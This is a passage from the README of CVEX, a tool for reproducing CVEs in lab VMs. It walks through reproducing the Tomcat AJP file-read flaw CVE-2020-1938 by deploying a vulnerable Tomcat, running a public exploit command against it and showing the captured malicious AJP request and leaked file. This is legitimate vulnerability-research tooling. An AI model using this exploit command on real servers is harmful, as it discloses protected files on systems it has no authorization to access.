changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini records/CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu1:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Before testing if the whole thing works, **delete** the `CVE-2020-1938/ubuntu1` and `CVE-2020-1938/ubuntu2` snapshots, otherwise CVEX will keep using them:
![Delete CVE-2020-1938/ubuntu1 snapshot](img/delete_CVE-2020-1938_ubuntu1.png)

Fire it all up:
```
~/CVEX$ cvex records/CVE-2020-1938

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-2020-1938/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook records/CVE-2020-1938/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-2020-1938/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook records/CVE-2020-1938/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside [records](records) with the following infrastructure:
```
records/CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

Use Git LFS (Large File Storage) for big files.

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

